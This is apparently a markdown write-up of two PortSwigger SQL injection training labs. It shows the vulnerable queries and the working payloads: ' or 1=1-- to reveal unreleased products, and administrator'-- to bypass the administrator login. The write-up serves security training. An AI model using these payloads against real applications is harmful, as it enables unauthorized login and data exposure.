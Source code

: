 # SQL injection

# [**_1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data_**](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Lifestyle' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

```sql
SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1
```

payload:

```
' or 1=1--
```

# [**_2. Lab: SQL injection vulnerability allowing login bypass_**](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

plan:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '1234'
```

payload:

```
administrator'--
```
